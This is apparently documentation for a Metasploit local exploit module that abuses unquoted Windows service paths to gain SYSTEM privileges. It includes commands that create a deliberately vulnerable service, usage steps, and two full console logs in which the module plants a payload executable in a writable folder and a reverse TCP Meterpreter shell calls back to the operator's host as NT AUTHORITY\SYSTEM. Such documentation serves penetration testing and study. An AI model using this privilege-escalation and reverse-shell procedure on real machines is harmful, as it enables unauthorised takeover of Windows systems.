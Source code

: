 ## Vulnerable Application

Commonly known as Trusted Service Path, or Unquoted Service path, this exploits a behavior of windows service.
When a service calls an executable, a full path is given.  If the full path contains a space,
Windows will attempt to execute a file up to the space, with `.exe` appended.
If the executable isn't found, it keeps going until the full path or the next space (and repeat).

@sumitvgithub had an excellent write-up on this
[here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

As is documented in that write-up, if the executable is C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

Windows will attempt to run the following, in order.

  1.  C:\Program.exe
  2.  C:\Program Files\A.exe
  3.  C:\Program Files\A Subfolder\B.exe
  4.  C:\Program Files\A Subfolder\B Subfolder\C.exe
  5.  C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

To exploit this, we simply need to go in reverse order to see if we're able to write a payload to those locations.
In Win7+ the deeper folders are more likely to succeed based on default Windows permissions for users.

Then, a service restart is required.  Often a user won't be able to do this,
so the payload is left on disk as a reboot or service restart will trigger the payload to launch.

The service will fail to start as long as the payload remains on disk.  Manual cleanup of the payload
is required.

### Creating a Vulnerable Service

This is sourced from @sumitvgithub's write-up
[here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

With an administrator command prompt, execute the following:

```
sc create "Some Vulnerable Service" binpath= "C:\Program Files\A Subfolder\B Subfolder\C Sub folder\SomeExecutable.exe" Displayname= "Vuln Service DP" start= auto
mkdir "C:\Program Files\A Subfolder\B Subfolder\C Sub folder"
icacls "C:\Program Files\A Subfolder" /grant "BUILTIN\Users":W
```

This creates a vulnerable service, with `A Subfolder` being vulnerable to user writes.

## Verification Steps

  1. Start msfconsole
  2. Get a user shell
  3. Do: ```use exploits/windows/local/unquoted_service_path```
  4. Do: ```set session #```
  5. Do: ```run```
  6. You should get an elevated shell.

## Options

### QUICK

Only exploit the first exploitable service.  `false` will exploit all exploitable service. Default is `true`

## Scenarios

### Windows 10 (16299) with Service Listed Above


```
msf6 exploit(windows/local/unquoted_service_path) > set session 1
session => 1
msf6 exploit(windows/local/unquoted_service_path) > set verbose true
verbose => true
msf6 exploit(windows/local/unquoted_service_path) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(windows/local/unquoted_service_path) > set lport 9090
lport => 9090
msf6 exploit(windows/local/unquoted_service_path) > set quick false
quick => false
msf6 exploit(windows/local/unquoted_service_path) > exploit

[*] Started reverse TCP handler on 1.1.1.1:9090 
[*] Finding a vulnerable service...
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[+] Found potentially vulnerable service: Some Vulnerable Service - c:\Program Files\A Subfolder\B Subfolder\C Sub folder\SomeExecutable.exe (LocalSystem)
[*]   Enumerating vulnerable paths
[-]     c:\Program Files\A Subfolder\B Subfolder\ is not writable
[+]     c:\Program Files\A Subfolder\ is writable
[-]     c:\Program Files\ is not writable
[-]     c:\ is not writable
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[*] Attempting exploitation of Some Vulnerable Service
[*] Placing c:\Program Files\A Subfolder\B.exe for Some Vulnerable Service
[*] Attempting to write 15872 bytes to c:\Program Files\A Subfolder\B.exe...
[+] Manual cleanup of c:\Program Files\A Subfolder\B.exe is required due to a potential reboot for exploitation.
[+] Successfully wrote payload
[*] Launching service Some Vulnerable Service...
[*] Manual cleanup of the payload file is required. Some Vulnerable Service will fail to start as long as the payload remains on disk.
[-] Unable to restart service. System reboot or an admin restarting the service is required. Payload left on disk!!!
[*] Waiting 303 seconds for shell to arrive
[*] Sending stage (175686 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:9090 -> 2.2.2.2:49891) at 2022-12-23 12:29:11 -0500
[*] Attempting to delete payload: c:\Program Files\A Subfolder\B.exe

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Windows 10 (18363), QUICK set to true

```
sf6 exploit(multi/script/web_delivery) > use exploit/windows/local/unquoted_service_path
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/unquoted_service_path) > set lhost 2.2.2.2
lhost => 2.2.2.2
msf6 exploit(windows/local/unquoted_service_path) > set lport 7777
lport => 7777
msf6 exploit(windows/local/unquoted_service_path) > set session 1
session => 1
msf6 exploit(windows/local/unquoted_service_path) > set verbose true
verbose => true
msf6 exploit(windows/local/unquoted_service_path) > exploit

[*] Started reverse TCP handler on 2.2.2.2:7777 
[-] !!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
[-] QUICK option is enabled. If an exploitable service is not found, try 'set QUICK false'.
[-] !!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
[*] Finding a vulnerable service...
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[+] Found potentially vulnerable service: NetTcpPortSharing - C:\WINDOWS\Microsoft.NET\Framework64\v3.0\Windows Communication Foundation\SMSvcHost.exe (NT AUTHORITY\LocalService)
[*]   Enumerating vulnerable paths
[-]     C:\WINDOWS\Microsoft.NET\Framework64\v3.0\ is not writable
[-] Ignoring unexploitable service
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. Falling back to registry technique
[+] Found potentially vulnerable service: Video Stream - C:\Program Files\VideoStream\1337 Log\checklog.exe (LocalSystem)
[*]   Enumerating vulnerable paths
[+]     C:\Program Files\VideoStream\ is writable
[*] Attempting exploitation of Video Stream
[*] Placing C:\Program Files\VideoStream\1337.exe for Video Stream
[*] Attempting to write 15872 bytes to C:\Program Files\VideoStream\1337.exe...
[+] Manual cleanup of C:\Program Files\VideoStream\1337.exe is required due to a potential reboot for exploitation.
[+] Successfully wrote payload
[*] Launching service Video Stream...
[*] Manual cleanup of the payload file is required. Video Stream will fail to start as long as the payload remains on disk.
[-] Unable to restart service. System reboot or an admin restarting the service is required. Payload left on disk!!!
[*] Waiting 303 seconds for shell to arrive
```

Manually restart the service

```
[*] Sending stage (175686 bytes) to 1.1.1.1
[*] Meterpreter session 2 opened (2.2.2.2:7777 -> 1.1.1.1:1727) at 2022-12-23 12:04:38 -0500
[*] Attempting to delete payload: C:\Program Files\VideoStream\1337.exe

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```